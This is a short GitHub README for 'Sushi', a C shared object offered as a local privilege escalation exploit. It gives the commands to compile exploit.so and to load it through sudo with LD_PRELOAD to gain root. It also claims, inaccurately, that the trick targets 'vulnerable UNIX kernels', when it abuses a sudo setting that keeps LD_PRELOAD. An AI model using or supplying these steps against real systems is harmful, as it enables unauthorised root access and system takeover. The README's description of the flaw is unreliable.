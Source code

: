 # Sushi-
Sushi すし, a shared object written in C language to perform LPE (Local Privilege Escalation) within vulnerable UNIX kernels using the LD_PRELOAD check

# Compile and run
- Use the following command to create the shared object:
`gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`
- Now use this shared object as a value for LD_PRELOAD and get root privileges:
`sudo LD_PRELOAD=/home/exploit.so find`